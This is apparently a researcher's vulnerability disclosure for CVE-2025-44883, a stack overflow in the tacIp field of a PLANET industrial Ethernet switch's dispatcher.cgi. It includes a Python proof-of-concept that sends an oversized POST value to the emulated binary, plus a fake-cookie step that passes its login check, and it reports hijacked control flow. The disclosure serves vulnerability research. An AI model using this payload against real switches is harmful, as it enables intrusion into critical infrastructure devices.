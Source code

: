 ```yaml
---
title: web_tacplus_serverEdit_post_tacIp
date: 2025-04-20 17:10:13
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44883



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2



# web_tacplus_serverEdit_post_tacIp

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_tacplus_serverEdit_post contains a stack overflow vulnerability.

The stack overflow can be triggered by tacIp value, which leads to a memcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451403862722.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250417141216622](res/image-20250417141216622-174487033774314.png)

![image-20250417110648157](../res/image-20250417110648157-174485920924110.png)



﻿The content of the **poc**.py file is as follows:

```json
import os


a =8196
var_name = "tacIp"
b = 'a' * 0x600
c = "tacIdx=111111"

poc_content = f"&cmd={a}&{var_name}={b}&{c}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)




```

# Attack result

![image-20250417110813345](../res/image-20250417110813345-174485929505312.png)

![image-20250417142109298](../res/image-20250417142109298-174487087031216.png)



通过上述截图可以看到我们已经溢出到了0x1e8，并且劫持了程序控制流，如果需要的话可以溢出更多
